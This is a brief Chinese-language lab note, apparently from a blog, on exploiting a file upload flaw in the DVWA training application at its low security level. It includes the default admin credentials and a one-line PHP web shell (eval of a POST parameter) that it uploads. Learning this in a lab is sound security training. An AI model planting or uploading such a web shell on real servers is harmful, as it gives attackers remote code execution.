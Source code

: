 靶场DVWA

账户密码admin  admin

**安全级别：低**
![在这里插入图片描述](70、文件上传漏洞/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201111094605384.png)
上传php文件

```php
<?php @eval($_POST['caidao']);?>  // 一句话木马

```

![在这里插入图片描述](70、文件上传漏洞/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201111094605387.png)
查看后端源码
